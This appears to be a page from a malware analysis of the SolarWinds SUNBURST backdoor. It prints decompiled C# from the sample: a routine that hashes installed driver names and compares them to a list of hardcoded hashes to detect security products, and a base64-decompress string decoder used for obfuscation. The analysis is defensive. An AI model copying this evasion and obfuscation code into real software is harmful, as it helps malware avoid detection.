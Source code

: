 ```C#
private static readonly ulong[] configTimeStamps = new ulong[17]{
    17097380490166623672UL,
    15194901817027173566UL,
    12718416789200275332UL,
    18392881921099771407UL,
    3626142665768487764UL,
    12343334044036541897UL,
    397780960855462669UL,
    6943102301517884811UL,
    13544031715334011032UL,
    11801746708619571308UL,
    18159703063075866524UL,
    835151375515278827UL,
    16570804352575357627UL,
    1614465773938842903UL,
    12679195163651834776UL,
    2717025511528702475UL,
    17984632978012874803UL
};


using (ManagementObjectSearcher managementObjectSearcher = new ManagementObjectSearcher("Select * From Win32_SystemDriver"))
{
    foreach (ManagementBaseObject managementBaseObject in managementObjectSearcher.Get())
    {
    ulong hash = OrionImprovementBusinessLayer.GetHash(Path.GetFileName(managementBaseObject.Properties["PathName"].Value.ToString()).ToLower());
    if (Array.IndexOf<ulong>(OrionImprovementBusinessLayer.configTimeStamps, hash) != -1)
        return true;
    }
}
return false;
```

    Get-CimInstance -ClassName Win32_SystemDriver | Select-Object -Property PathName > stringFile.txt

## 2.3. Encryption/obfuscation
### 2.3.1. Decoded String (Unzip)

1. FromBase64String
2. Decompress
3. Encoding.UTF8.GetString

```C#
public static string Unzip(string input)
{
if (string.IsNullOrEmpty(input))
    return input;
try
{
    return Encoding.UTF8.GetString(OrionImprovementBusinessLayer.ZipHelper.Decompress(Convert.FromBase64String(input)));
}
catch (Exception ex)
{
    return input;
}
}
```
